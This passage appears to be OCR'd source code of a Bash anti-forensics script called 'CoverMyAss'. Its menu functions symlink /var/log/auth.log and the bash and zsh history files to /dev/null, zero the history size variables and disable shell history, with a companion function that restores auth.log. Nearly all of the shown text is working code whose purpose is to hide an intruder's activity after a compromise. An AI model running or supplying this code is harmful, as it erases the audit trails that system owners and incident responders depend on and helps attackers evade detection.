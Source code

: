   # CoverMyAss Cleaning Logs

    MainMenu () {
      isRoot () {
              if [ "$EUID" -ne 0 ]; then
                      return 1
              fi
      }

      disableAuth () {
        if [ -w /var/log/auth.log ]; then
          ln /dev/null /var/log/auth.log -sf
          echo " "
          echo "[+] Permanently sending /var/log/auth.log to /dev/null"
          read -p "$Press_ENTER"
        else
          echo " "
          echo "[!] /var/log/auth.log is not writable! Retry using sudo."
          read -p "$Press_ENTER"
        fi
      }

      disableHistory () {
        ln /dev/null ~/.bash_history -sf
        echo " "
        echo "[+] Permanently sending bash_history to /dev/null"
        read -p "$Press_ENTER"

        if [ -f ~/.zsh_history ]; then
          ln /dev/null ~/.zsh_history -sf
          echo " "
          echo "[+] Permanently sending zsh_history to /dev/null"
          read -p "$Press_ENTER"
        fi
        export HISTFILESIZE=0
        export HISTSIZE=0
        echo " "
        echo "[+] Set HISTFILESIZE & HISTSIZE to 0"
        echo " "
        set +o history
        echo "[+] Disabled history library"
        echo "Permenently disabled bash log."
        read -p "$Press_ENTER"
                  }

      enableAuth () {
        if [ -w /var/log/auth.log ] && [ -L /var/log/auth.log ]; then
          rm -rf /var/log/auth.log
          echo " "
          echo " " > /var/log/auth.log
          echo "[+] Disabled sending auth logs to /dev/null"
          read -p "$Press_ENTER"
        else
          echo " "
          echo "[!] /var/log/auth.log is not writable! Retry using sudo."
          read -p "$Press_ENTER"
        fi
      }
